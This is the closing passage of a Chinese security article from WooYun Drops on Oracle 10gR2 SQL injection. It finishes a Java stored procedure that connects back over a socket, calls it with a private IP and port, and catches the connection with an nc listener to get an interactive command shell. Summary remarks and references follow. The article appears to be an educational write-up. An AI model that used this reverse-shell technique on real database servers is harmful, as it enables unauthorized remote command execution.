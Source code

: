 ```
                } 

                PS.println(s);
           } 

            DIS.close();
            PS.close(); 
            Is.close(); 
            Os.close(); 
            socket.close();  
        } 
        catch(Exception e)
        { 
            System.out.println("Error:"+e); 
        } 
    } 

}

create or replace procedure myjavasocket(address in varchar,port in varchar) as language java  
name 'javasocket.test(java.lang.String,java.lang.String)'; 
```

执行 myjavasocket

```
exec myjavasocket('10.1.100.1','9999');

local: nc -l -p 9999 
```

这样就可以得到了一个交互的 shell 了，不过有些不是 exe 文件的比如 dir 就得输入 cmd.exe /c dir 来运行….

**0x6 总结**

其实这篇文章主要都是在讲 10gr2，都是一些很老的东西，我也只是稍微的总结了一下，我现在更比较关注大牛们是怎么发现这些漏洞的， 这篇东西写了我差不多两周的时间，对 oracle 的了解从 0 到有了一点了解，从中学到了不少东西，本文参照了不少大牛的资料，再一次感谢和膜拜各位大牛

**0x7 参考文献**

[1] Hacking Oracle From Web 2

[2] hacking Oracle From Web part2-2 

[3] HackingAurora 

[4] best of oracle security 2012 

[5] Integrigy Oracle SQL Injection Attacks 

[6] Oracle web 环境注射技术

**Tags:** [oracle](http://drops.wooyun.org/tag/oracle), [sql 注射](http://drops.wooyun.org/tag/sql%e6%b3%a8%e5%b0%84)

版权声明：未经授权禁止转载 [yy520](http://drops.wooyun.org/author/yy520 "由 yy520 发布")@[乌云知识库](http://drops.wooyun.org)
